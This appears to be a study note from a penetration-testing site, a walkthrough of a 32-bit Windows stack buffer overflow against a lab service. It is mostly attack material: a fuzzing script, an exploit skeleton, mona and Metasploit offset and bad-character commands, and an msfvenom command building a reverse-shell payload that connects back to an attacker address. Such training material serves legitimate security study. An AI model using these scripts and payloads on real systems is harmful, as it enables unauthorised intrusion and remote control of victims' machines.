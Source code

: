
---
title: Windows BoF 32bit
category: Exploiting
order: 1
---

# Stack-Based

For that task we are going to use a Windows 7 x64 with Immunity Debugger and mona.py installed.

## Mona configuration

`!mona config -set workingfolder c:\mona\%p`

## Fuzz to find the vulnerable input

fuzzer.py

```
import socket, time, sys

ip = "10.10.95.202"
port = 1337
timeout = 5

buffer = []
counter = 100
while len(buffer) < 30:
    buffer.append("A" * counter)
    counter += 100

for string in buffer:
    try:
        s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
        s.settimeout(timeout)
        connect = s.connect((ip, port))
        s.recv(1024)
        print("Fuzzing with %s bytes" % len(string))
        s.send("OVERFLOW1 " + string + "\r\n")
        s.recv(1024)
        s.close()
    except:
        print("Could not connect to " + ip + ":" + str(port))
        sys.exit(0)
    time.sleep(1)
```

## Crash Replication & Crontrolling EIP

exploit.py

```
import socket

ip = "10.10.95.202"
port = 1337

prefix = "OVERFLOW1 "
offset = 0
overflow = "A" * offset
retn = ""
padding = ""
payload = ""
postfix = ""

buffer = prefix + overflow + retn + padding + payload + postfix

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)

try:
    s.connect((ip, port))
    print("Sending evil buffer...")
    s.send(buffer + "\r\n")
    print("Done!")
except:
    print("Could not connect.")
```

create a pattern: `/usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l 600`

And add the output to a payload variable and exploited.

take notes about the EIP and search the offset:

`/usr/share/metasploit-framework/tools/exploit/pattern_offset.rb -q EIP`

Check adding `BBBB` value to `retn` variable.

## Finding Bad Characters

Find the characters that are not accepted on the payload. (REMEMBER FILL THE EIP)

`!mona bytearray -b "\x00"`

And add the output to the payload variable (without the offset)

Finally compare the binary file with the stack frame specifying the ESP.

`!mona compare -f C:\mona\oscp\bytearray.bin -a <ESP>`

Repeat the process adding the new bad characters found until the results status returns **UNMODIFIED**

`!mona bytearray -b "\x00\x07\x2e\xa0"`

>**Note**: If the ESP direction does not match with the beginning of the payload fill it with NOPS (normally is `"\x90"\*8`)

## Finding a Jump Point

Find all "jmp esp" on the system `!mona jmp -r esp -cpb "\x00\x07\x2e\xa0"`

>**Remember**: **Don't Forget** to put the **BAD CHARS** founded.

```
Log data, item 11
 Address=625011AF
 Message=  0x625011af : jmp esp |  {PAGE_EXECUTE_READ} [essfunc.dll] ASLR: False, Rebase: False, SafeSEH: False, OS: False, v-1.0- (C:\Users\admin\Desktop\vulnerable-apps\oscp\essfunc.dll)
```

> **REMBEMBER LITTLE ENDIAN** `\x62\x50\x11\xAF (system) -> \xAF\x11\x50\x62 (exploit)`

Put the adress on the "retn" variable. If the EIP is the same as ESP you success at jummping to ESP.

## Generate the Payload

We will generate the payload with `msfvenom`.

> **Note**: Don't forget to put the previously found bad chars!

```
msfvenom -a x86 -p windows/shell_reverse_tcp LHOST=10.11.21.203 LPORT=4444 EXITFUNC=thread -b "\x00\x07\x2e\xa0" -f py

| sed 's/buf/payload/g'
```

> **Hint:** Using **EXITFUNC=thread** will only finish the thread once termintad the reverse shell without affecting the whole program. -> NO DoS

Copy the generated payload ant integrate it into the `exploit.py`

## Prepend NOPs

We will need some space in memory for the payload to unpack itself, if we added a padding before to match the beginning of the payload with ESP add another 16 NOPS.

```
padding = "\x90" * 16
```
